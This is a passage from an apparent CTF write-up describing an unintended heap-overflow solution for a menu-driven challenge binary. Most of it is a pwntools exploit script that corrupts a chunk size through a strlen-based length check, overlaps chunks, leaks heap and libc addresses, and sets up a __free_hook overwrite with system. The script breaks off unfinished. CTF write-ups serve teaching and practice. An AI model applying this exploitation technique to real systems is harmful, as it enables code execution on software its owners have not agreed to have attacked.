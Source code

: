 From here on, the tasks solved after the competition time.

# Unintended
In the edit function, since the length is checked with strlen, the size of the chunk immediately after can be tampered with. Make an overlap and edit `__free_hook`.

```python
def a(idx, category, name, length, desc, point=11):
        r.sendlineafter('> ', '1')
        r.sendlineafter(': ', str(idx))
        r.sendlineafter(': ', category)
        r.sendlineafter(': ', name)
        r.sendlineafter(': ', str(length))
        r.sendafter(': ', desc)
        r.sendlineafter(': ', str(point))

def e(idx, desc):
        r.sendlineafter('> ', '2')
        r.sendlineafter(': ', str(idx))
        r.sendafter(': ', desc)

def s(idx):
        r.sendlineafter('> ', '3')
        r.sendlineafter(': ', str(idx))
def d(idx):
        r.sendlineafter('> ', '4')
        r.sendlineafter(': ', str(idx))

a(0, "web", "0", 0x428, "a"*0x18)
a(1, "web", "1", 0x18, "b"*0x18)
a(2, "web", "2", 0x18, "c"*0x18)
a(3, "web", "3", 0x18, 'd'*0x18)
a(4, "web", "4", 0x18, "e"*0x18)

e(1, 'Z'*0x18+'\xf1')
d(1)
d(2)
a(5, "web", "5", 0xe8, "d"*0x20)
s(5)
r.recvuntil('d'*0x20)
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
dbg('leak')
heap = leak - 0x770
d(0)
d(5)
payload = ''
payload += 'A'*0x38
payload += flat(0x21, 0, 0, 0, 0x41)
payload += 'A'*0x20
payload += p64(heap+0x2a0)
a(5, "web", "5", 0xe8, payload)
s(3)
r.recvuntil('Description: ')
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
dbg('leak')
base = leak - 0x3ebca0
dbg('base')
fh = base + 0x3ed8e8
system = base + 0x4f550
binsh = base + 0x1b3e1a

d(5)
payload = ''
```